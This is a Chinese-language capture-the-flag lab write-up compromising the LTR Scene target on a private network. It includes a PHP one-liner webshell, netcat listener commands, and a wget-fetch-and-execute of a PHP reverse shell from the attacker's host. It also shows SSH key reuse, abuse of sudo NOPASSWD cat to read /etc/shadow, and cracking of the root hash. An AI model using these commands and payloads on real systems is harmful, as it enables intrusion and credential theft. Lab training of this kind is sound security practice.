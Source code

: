 ```yaml
---
title: LTR Scene（php写入一句话+sudoer提权）
categories:
- training
tags:
- training
- command execution
---
```

以前的步骤经常看到一个感兴趣的点，然后就一直死磕ORZ

[发现登陆页面，就开始尝试检查弱密码](https://whale3070.github.io/training/2018/10/29/ch4inrulz-Apache-.htaccess%E5%8F%88%E6%98%AF%E5%A5%97%E8%B7%AF/)
实际上如果检查到备份文件泄露，很快就可以突破登陆表单。

[发现backup文件下载，从猜测直接跳到尝试，步骤错了。。](https://whale3070.github.io/training/2018/10/13/node-%E6%BA%90%E7%A0%81%E6%B3%84%E9%9C%B2+%E5%AF%86%E7%A0%81%E5%AD%A6%E7%9B%B8%E5%85%B3/)

所以踩点这一步的确没有做好。

---

## 踩点
```
21/tcp    open   ftp        ProFTPD 1.3.1 Server
22/tcp    open   ssh        OpenSSH 5.1 (protocol 1.99)
80/tcp    open   http       Apache httpd 2.2.13 ((Unix) DAV/2 PHP/5.2.10)
Linux 2.6.X
```
第一点，不要相信任何扫描结果。

#### 80:
http://192.168.2.120/logs/ 403
http://192.168.2.120/cgi-bin/ 403
- info1: 
```
index.php
<!-- username:logs password:zg]E-b0]+8:(58G -->
```
- info2:
```
一个邮箱dev@21ltr.com
源码发现了一个口令，经过尝试确认ftp口令可以登录。
```

#### 21:
info2: 检查过匿名登陆
- 下载了一个php文件
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/1.PNG)
lcd /root/Desktop
get backup_log.php 
- ftp权限可读不可写
```
lcd /root/Desktop
put
a.php（上传本地a.php）
a.php（把选中的文件，以a.php写入服务器）
```
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/2.PNG)

- 看来只能检查这个php脚本了。
```
<?php $log = time(); echo '<center><b>GMT time is: '.gmdate('r', $log).'</b></center>'; ?>          
```
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/3.PNG)
该脚本的作用：生成现在的时间戳，然后记录下发生错误的记录。
没有任何提权思路。

## 22 ssh：
[exp](https://www.exploit-db.com/exploits/45233/)
```
python 45233.py --port 22 --username logs 192.168.2.120
logs is not a valid user!
```

---

## 10001： scp
一开始发现了10001开放，可是具体去扫描的时候，又关闭了，所以以为是误报。
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/4.PNG)
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/5.PNG)

---

首先将kali改为192.168.2.240，ftp泄露的log提示。
scp会将文件发送到这个ip。

第二步建立一个文本文件，写入一句话。
`<?php system($_GET['cmd']) ?> `

第三步执行监听。

```
nc -nvlp 10000 > file.gz && nc -nv 192.168.2.120 10001 < text  
```
分为两条命令，第一条，监听本地10000端口，如果有连接进来，就发送到file.gz。第二条，将text文件发送到指定ip和端口。

注意：&& 和 ；的区别（linux shell）
&&正确执行完第一条，才执行第二条。
； 分别执行，命令之间不相关。

第四步，稍等一会儿nc显示，靶机连进来了==，并传递了一个备份文件。
在这里，我检查过backup_log.php，确认没有漏洞。但是居然可以利用scp写入system函数，让这个文件可以执行命令！真的出乎意料。
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/6.PNG)

---

接下来就简单了，[以前学过](https://whale3070.github.io/training/2017/11/02/g0rmint-%E4%B8%80%E5%8F%A5%E8%AF%9D%E5%86%99%E5%85%A5log-%E6%8F%90%E6%9D%83/)

>info: /var/www/htdocs/logs
Linux slax 2.6.27.27

准备php反弹shell脚本。

```
kali: python -m SimpleHTTPServer 888
		nc -lnvp 1234
```

`cd /tmp;wget http://192.168.2.240:888/php-reverse-shell.php;chmod +x php-reverse-shell.php;./php-reverse-shell.php`
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/7.PNG)

现在是apache用户

---
查找ssh密钥
find . -name "id_rsa" 2> /dev/null
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/8.PNG)

```
./mnt/live/mnt/hdc/slax/rootcopy/media/USB_1/Stuff/Keys/id_rsa           root root 1675 Jan  5  2008 
./mnt/live/memory/changes/media/USB_1/Stuff/Keys/id_rsa
./mnt/hdc/slax/rootcopy/media/USB_1/Stuff/Keys/id_rsa
./media/USB_1/Stuff/Keys/id_rsa
root root 1675 Jan  5  2008
```
尝试后，以hbeale用户登陆
```
chmod 600 key
ssh -i key hbeale@192.168.2.120  
```
现在是普通用户权限

---
## sudo权限错误

以前遇到过关于sudo权限的 [target](https://whale3070.github.io/training/2018/04/16/x/)

#### visudo
以root用户运行visudo命令，可以修改/etc/sudoers。

```
`# User privilege specification`
root ALL=(ALL) ALL
xx ALL=(ALL) ALL
```

如果sudoers文件中，有上述代码。说明xx用户可以用sudo执行任何命令（以root权限）

sudoers文件只有root账号才能查看并且修改。

#### sudo -l
用户hbeale执行该命令，查看sudoers权限。
```
User hbeale may run the following commands on this host:  
    (root) NOEXEC: /bin/ls, (root) /usr/bin/cat, (root) /usr/bin/more, (root)  
    !/usr/bin/su *root*  
    (root) NOPASSWD: /usr/bin/cat  
```
最后一行NOPASSWD，说明sudo命令运行/usr/bin/cat的时候，不需要输入密码。

于是sudo cat /etc/shadow
获取到了root加密的口令 `$1$VW5E9DmD$deoML8uqU/4HaTmNmfM7G1`

---

#### 破解/etc/shadow
将口令写入pass.txt

john --wordlists=/usr/share/wordlists/rockyou.txt pass.txt

![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/9.PNG)

su root，提权成功。


